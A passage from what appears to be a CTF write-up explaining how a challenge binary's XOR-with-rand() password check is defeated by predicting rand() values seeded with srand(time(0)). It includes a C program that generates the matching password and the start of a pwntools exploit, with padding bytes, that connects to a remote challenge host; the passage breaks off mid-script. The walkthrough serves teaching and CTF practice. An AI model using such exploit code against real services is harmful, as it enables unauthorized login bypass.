 The current time is used to seed the pseudo-random number generator. Each character in my\_password is then XORd with a randomly generated number from 0x0 to 0xFF. The end result is compared with the hardcoded password. Since random numbers are used to XOR my\_password, it’s impossible enter the correct password such that it will match the hardcoded one after all the XOR encoding.

Or is it?

The vulnerability here was obvious to me because I’d actually solved a similar challenge before in [TJCTF 2016](https://github.com/VulnHub/ctf-writeups/blob/e160838b06b69d1f19a94411bcbc2702bcf3dbca/2016/tjctf/guess.md). The issue is that srand(time(0)) is called everytime option 1 is selected, rather than at the start of the program. Since it uses the current time to seed the pseudo-random number generator, I could duplicate that same functionality and therefore predict the values that every call to rand() would return. This allows me to generate the correct password that would match the hardcoded password after the XOR encoding.

Here’s a C program that does just that:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

int main() {
    char *hardcoded_password = "\x33\x12\x46\x67\xf6\x2b\x5a\x2e\x5b\x7e\xd6\xf7\xa2\x33\xd5\x7a\x87\x39\x5f\x92\x73\xf5\xb1\xa5\x81\xb0\x6a\x84\x38\xcd\x9b\xea\x99\xda";
    char my_password[34];
    int i;

    srand(time(0));

    for (i = 0; i < 34; i++) {
        my_password[i] = hardcoded_password[i] ^ rand() % 255;
    }
    printf("%s", my_password);
    return 0;
}
```

I could now write a python script that would take the output of that helper program and send it to the service with a 99% chance that the password would match. This worked perfectly locally, but not remotely. The reason for that was the time. The time on my machine was probably different from the time running on the server. This is where option 3 came in. It printed the timezone the server was running, which was IST. Once I changed my machine’s timezone to IST, I was able to get it working. Here’s the final exploit that gets a successful login and prints out the secret code from option 2:

```
!/usr/bin/env python

from pwn import *
import subprocess

# binary does strncmp(my_password, hardcoded_password, 100). only 33 bytes of my_password are encoded.
# so we need to pad it with the extra junk that strncmp() looks for when comparing against
# the hardcoded_password. This is basically stuff that starts at 0x400e82
junk = (
    "\x57\x65\x6c\x63\x6f\x6d\x65\x20\x74\x6f\x20"
    "\x6d\x79\x2e\x2e\x2e\x00\x00\x00\x00\x00\x00"
    "\x5f\x5f\x5f\x5f\x5f\x5f\x5f\x5f\x5f\x5f\x5f"
    "\x20\x20\x20\x20\x20\x20\x2e\x5f\x5f\x20\x20"
    "\x20\x20\x20\x20\x20\x20\x20\x20\x20\x5f\x5f"
    "\x5f\x5f\x5f\x5f\x5f\x5f\x5f\x20\x20\x20\x20"
)

r = remote("13.126.83.119", 10987)

```